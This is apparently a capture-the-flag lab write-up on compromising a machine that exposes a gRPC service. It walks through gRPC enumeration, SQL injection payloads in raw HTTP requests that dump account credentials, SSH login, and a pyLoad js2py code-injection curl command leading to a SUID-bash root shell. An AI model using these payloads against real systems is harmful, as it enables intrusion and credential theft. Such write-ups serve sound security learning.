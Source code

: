```
Host is up (0.053s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 91bf44edea1e3224301f532cea71e5ef (RSA)
|   256 8486a6e204abdff71d456ccf395809de (ECDSA)
|_  256 1aa89572515e8e3cf180f542fd0a281c (ED25519)
50051/tcp open  unknown
```

## Recon


If we connect with nc we can see that response has problem with handshake and i investigate for it..
I also check with firefox and something in unicode appears as output.

Googling 50051 port i say sure it's a gRPC so we can dump the calls with `--describe` mode which show the usage of single class of REMOTE PROCEDURE CALL.

in Github there's basically 3 cool clients that help for the job! 
 
1) [grpc-curl]("https://github.com/xoofx/grpc-curl")
2) [grpcurl]("https://github.com/fullstorydev/grpcurl")
3) [grpcui]("https://github.com/fullstorydev/grpcui") The UI interface client edition :D



### The nice function

```
grpc-curl http://10.129.93.207:50051  --describe SimpleApp                                                                                                                           1 ⨯
// SimpleApp is a service:
service SimpleApp {
  rpc LoginUser ( .LoginUserRequest ) returns ( .LoginUserResponse );
  rpc RegisterUser ( .RegisterUserRequest ) returns ( .RegisterUserResponse );
  rpc getInfo ( .getInfoRequest ) returns ( .getInfoResponse );
}

```

Nice so we can basically Login // Register // and to get //getInfo


```
grpcurl -plaintext -d '{"username":"code","password":"code"}' 10.129.93.207:50051 SimpleApp.RegisterUser
```

response:

```json
{
  "message": "Account created for user code!"
}
```

Now we can login with LoginUser function .. what is interesting here and that we have a responde with an id=rand_int e un token .




```http
POST /invoke/SimpleApp.LoginUser HTTP/1.1
Host: 127.0.0.1:38235
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:38235/
Content-Type: application/json
x-grpcui-csrf-token: y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
X-Requested-With: XMLHttpRequest
Content-Length: 62
Origin: http://127.0.0.1:38235
Connection: close
Cookie: _grpcui_csrf_token=y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
DNT: 1
Sec-GPC: 1

{"metadata":[],"data":[{"username":"code","password":"code"}]}
```

response:

```html
HTTP/1.1 200 OK
Content-Type: application/json
Date: Tue, 23 May 2023 14:16:10 GMT
Content-Length: 586
Connection: close

{
  "headers": [
    {
      "name": "content-type",
      "value": "application/grpc"
    },
    {
      "name": "grpc-accept-encoding",
      "value": "identity, deflate, gzip"
    }
  ],
  "error": null,
  "responses": [
    {
      "message": {
        "message": "Your id is 740."
      },
      "isError": false
    }
  ],
  "requests": {
    "total": 1,
    "sent": 1
  },
  "trailers": [
    {
      "name": "token",
      "value": "b'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiY29kZSIsImV4cCI6MTY4NDg2MTEyNH0.jZ1skXLcxEXP5oZhYLHGBl7T3OwFsrVBm2IHdvU_igw'"
    }
  ]
}

```

so now we can call getInfo with the provided id and token header



### Q&A 

id = is vulnerbale to sql injection!?? or is it a strange deserialization? 



let's try with sql injection! 


```html
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:33537
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:33537/
Content-Type: application/json
x-grpcui-csrf-token: y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
X-Requested-With: XMLHttpRequest
Content-Length: 223
Origin: http://127.0.0.1:33537
Connection: close
Cookie: _grpcui_csrf_token=y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
DNT: 1
Sec-GPC: 1

{"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiY29kZSIsImV4cCI6MTY4NDg2MTQwN30.voWz_2Pf3DfYLnHhLyieZ9rAYVmGK7APBrvMEfcln8U"}],"data":[{"id":"404 Union select sqlite_version();"}]}
```

it works so we know that we are talking with sqlite v 3.31.1


```html
POST /invoke/SimpleApp.getInfo HTTP/1.1
Host: 127.0.0.1:33537
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:33537/
Content-Type: application/json
x-grpcui-csrf-token: y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
X-Requested-With: XMLHttpRequest
Content-Length: 273
Origin: http://127.0.0.1:33537
Connection: close
Cookie: _grpcui_csrf_token=y5KZMUVj-13lW4Mmy-br_S4jjz9N7Qr43ESkLs5o5ww
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
DNT: 1
Sec-GPC: 1

{"metadata":[{"name":"token","value":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoiY29kZSIsImV4cCI6MTY4NDg2MTQwN30.voWz_2Pf3DfYLnHhLyieZ9rAYVmGK7APBrvMEfcln8U"}],"data":[{"id":"404 union SELECT group_concat(username || \",\" || password || \":\") from accounts;"}]}
```



response


```json
{
  "headers": [
    {
      "name": "content-type",
      "value": "application/grpc"
    },
    {
      "name": "grpc-accept-encoding",
      "value": "identity, deflate, gzip"
    }
  ],
  "error": null,
  "responses": [
    {
      "message": {
        "message": "admin,admin:,sau,HereIsYourPassWord1431:"
      },
      "isError": false
    }
  ],
  "requests": {
    "total": 1,
    "sent": 1
  },
  "trailers": []
}
```


## SSH

SSH works with sau : pass


## Privesc 


Found a service in 8000 port hosted by python engine:



so I decided to chisel and try to understand better what's the mechanism of that thing!


with the BIG help of nmap found the version and the possible flows that can lead of some critical stuff.

```
Host is up (0.00036s latency).

PORT     STATE SERVICE VERSION
8000/tcp open  http    CherryPy wsgiserver
|_http-server-header: Cheroot/8.6.0
|_http-favicon: Unknown favicon MD5: 71AAC1BA3CF57C009DA1994F94A2CC89
| http-robots.txt: 1 disallowed entry 
|_/
| http-title: Login - pyLoad 
|_Requested resource was /login?next=http%3A%2F%2Flocalhost%3A8000%2F
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD



```


According with this [aritcle]("https://vulners.com/huntr/3FD606F7-83E1-4265-B083-2E1889A05E65") we can attack this service unauthenticated. we can inject arbitrary code abusing `js2py` funtionality due the lack of CSRF protection, a victim can be tricked to execute arbitrary python code.


so we can try to import a payload `pyimport os;os.system("touch /tmp/nice_job");f=function f2(){};;&package=xxx&crypted=AAAA&&passwords=aaaa'`

```
curl -X POST 127.0.0.1:8000/flash/addcrypted2 -d 'jk=pyimport%20os;os.system(%22touch%20/tmp/nice_job%22);f=function%20f2()%7B%7D;&package=xxx&crypted=AAAA&&passwords=aaaa'`
```



the nicest thing is to convert bash  in a suid so and boom we are root! 


`/bin/bash -p`